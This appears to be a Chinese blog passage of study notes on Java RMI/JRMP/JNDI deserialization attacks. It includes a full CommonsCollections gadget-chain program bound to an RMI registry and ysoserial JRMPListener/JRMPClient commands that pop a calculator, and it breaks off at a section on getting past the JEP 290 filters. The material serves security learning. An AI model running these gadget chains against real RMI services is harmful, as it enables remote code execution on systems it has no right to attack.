 # Java反序列化学习之RMI/JRMP/JNDI

## 前言
花时间好好学习RMI/JRMP/JNDI的区别，这三个是近两年Java反序列化经常出现的概念，涉及到的知识点也比较多，需要花时间琢磨一番。由于知识点太多，对于自己学习总结的话，主要是记录关键内容。

## 基本概念

**RMI**

RMI是java中的远程方法调用，指的是操作行为。通常是指调用jvm之外的API方法

**JRMP**

JRMP是Java远程方法协议，在RMI的过程中，通过JRMP协议进行数据传输调用。该协议用于Java RMI过程中

**JNDI**

JNDI是java中的接口方法，通过接口实现目录系统。同时根据名称可实现对相关对象方法的查询，并下载查询到的对象方法。

## 反序列化攻击应用

### Java RMI反序列化

在执行Java RMI时，传输的数据包含有序列化数据。并且无论是在JRMP的客户端还是服务端接收到JRMP协议数据时，都会将序列化的数据进行反序列化。所以在这个过程中，针对开启了RMI服务的主机，可对其发送序列化代码造成反序列化攻击。

Server注册对象：

1. Server向Registry注册远程对象，远程对象绑定在一个//host:port/objectname上，形成映射表（Service-Stub）

Client调用：

1. Client向Registry通过RMI地址查询对应的远程引用（Stub）。这个远程引用包含了一个服务器主机名和端口号
1. Client拿着Registry给它的远程引用，照着上面的服务器主机名、端口去连接提供服务的远程RMI服务器
1. Client传送给Server需要调用函数的输入参数，Server执行远程方法，并返回给Client执行结果


![2.png](https://raw.githubusercontent.com/Ns1ookup/ns1ookup.github.io/master/_posts/java_ser/2.png)


**反序列化攻击**

攻击场景分为三种：

1. 服务端攻击注册中心
1. 注册中心攻击客户端
1. 客户端攻击注册中心

作为渗透攻击来说，见得比较多的还是第三种情况。网络中发现RMI注册中心，对注册中心发起反序列化攻击。对于其他两种攻击场景，借用别人的复现简单描述一下。

1）服务端攻击注册中心

服务端也是向注册中心序列化传输远程对象,使用ysoserial工具中的RMIRegistryExploit代码，构造反序列化Gadget发送给注册中心。可使用ysoserial payload模块中的Gadget

	public class HelloServer {
	    public static void main(String[] args) throws Exception {
	        try {
	​
	            Transformer[] transformers = new Transformer[]{
	                    new ConstantTransformer(Runtime.class),
	                    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
	                    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
	                    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open /Applications/Calculator.app"}),
	            };
	            Transformer transformer = new ChainedTransformer(transformers);
	            Map innerMap = new HashMap();
	            Map ouputMap = LazyMap.decorate(innerMap, transformer);
	​
	            TiedMapEntry tiedMapEntry = new TiedMapEntry(ouputMap, "pwn");
	            BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
	​
	            Field field = badAttributeValueExpException.getClass().getDeclaredField("val");
	            field.setAccessible(true);
	            field.set(badAttributeValueExpException, tiedMapEntry);
	​
	            Map tmpMap = new HashMap();
	            tmpMap.put("pwn", badAttributeValueExpException);
	            Constructor<?> ctor = null;
	            ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
	            ctor.setAccessible(true);
	            InvocationHandler invocationHandler = (InvocationHandler) ctor.newInstance(Override.class, tmpMap);
	            Remote remote = Remote.class.cast(Proxy.newProxyInstance(HelloServer.class.getClassLoader(), new Class[]{Remote.class}, invocationHandler));
	            Registry registry = LocateRegistry.getRegistry(1099);
	            registry.bind("hello1", remote);
	        } catch (Exception e) {
	            e.printStackTrace();
	        }
	    }
	}



2）注册中心攻击客户端

通过ysoserial启动JRMP服务端，指定payload和命令

    java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections5 "calc.exe"

然后启动RMI客户端的代码进行查询,会发现计算器直接被弹出

![1.png](https://raw.githubusercontent.com/Ns1ookup/ns1ookup.github.io/master/_posts/java_ser/1.png)

3）客户端攻击注册中心


通过ysoserial启动JRMPClient攻击注册中心，并指定攻击payload和执行的命令

>     java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPClient 192.168.xxx.xxx 1099 CommonsCollections5 "calc.exe"

执行完命令后计算器直接弹出来了,原因是RMI框架采用DGC(Distributed Garbage Collection)分布式垃圾收集机制来管理远程对象的生命周期,可以通过与DGC通信的方式发送恶意payload让注册中心反序列化。


**JEP 290**

为了化解不安全的反序列化所带来的风险，Oracle对Java内核进行了相应的修改。其中最重要的一些修改是在JavaEnhancement Process（JEP）文档290（简称JEP 290）中所介绍的。JEP是JDK9的一部分，但已被反向移植到了较旧的Java版本中，其中包括：

-   Java™ SE Development Kit 8, Update 121 (JDK 8u121)
-   Java™ SE Development Kit 7, Update 131 (JDK 7u131)
-   Java™ SE Development Kit 6, Update 141 (JDK 6u141)

JEP290只是为RMI注册表和RMI分布式垃圾收集器提供了相应的内置过滤器,在RMI客户端和服务端在通信时参数传递这块是没有做处理的,而参数传递也是基于序列化数据传输,那么如果参数是泛型的payload,传输依然会有问题。

先把接口都新增一个sayPayload的方法,参数都是Object类型的

